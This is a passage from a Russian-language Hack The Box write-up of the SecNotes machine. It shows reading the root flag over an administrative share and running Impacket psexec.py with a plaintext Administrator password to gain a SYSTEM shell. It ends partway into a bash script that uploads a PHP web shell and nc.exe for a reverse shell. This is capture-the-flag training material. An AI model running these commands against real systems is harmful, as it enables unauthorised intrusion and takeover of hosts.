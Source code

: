 ### root.txt
```text
C:\Users\tyler>type \\127.0.0.1\C$\Users\Administrator\Desktop\root.txt
type \\127.0.0.1\C$\Users\Administrator\Desktop\root.txt
7250cde1????????????????????????
```

Аналогично, это можно провернуть через smbclient с машины атакующего.

## Шелл от админа
Полноценный же шелл можно получить с помощью psexec или winexec:
```text
root@kali:~# psexec.py Administrator:'u6!4ZwgwOM#^OBf#Nwnh'@10.10.10.97
Impacket v0.9.18-dev - Copyright 2002-2018 Core Security Technologies

[*] Requesting shares on 10.10.10.97.....
[*] Found writable share ADMIN$
[*] Uploading file BhMvtfKj.exe
[*] Opening SVCManager on 10.10.10.97.....
[*] Creating service dBdy on 10.10.10.97.....
[*] Starting service dBdy.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\system
```

```text
C:\WINDOWS\system32>type C:\Users\Administrator\Desktop\root.txt
7250cde1????????????????????????
```

SecNotes пройдена :triumph:

![owned-user.png]({{ "/img/htb/boxes/secnotes/owned-user.png" | relative_url }})
{: .center-image}

![owned-root.png]({{ "/img/htb/boxes/secnotes/owned-root.png" | relative_url }})
{: .center-image}

![trophy.png]({{ "/img/htb/boxes/secnotes/trophy.png" | relative_url }})
{: .center-image}

# Эпилог
## secnotes_reverse_tcp.sh
Корневая директория веб-сервера очищается по таймеру, что определенно раздражает.

Чтобы заново не загружать весь необходимый стафф по отдельности, можно воспользоваться таким bash-скриптом:
```bash
#!/usr/bin/env bash

if [ "$#" -ne 2 ]; then
	echo "Usage: $0 [IP] [PORT]"
	exit
fi;

IP=$1
PORT=$2

echo "[*] Uploading evil.php and nc.exe"
```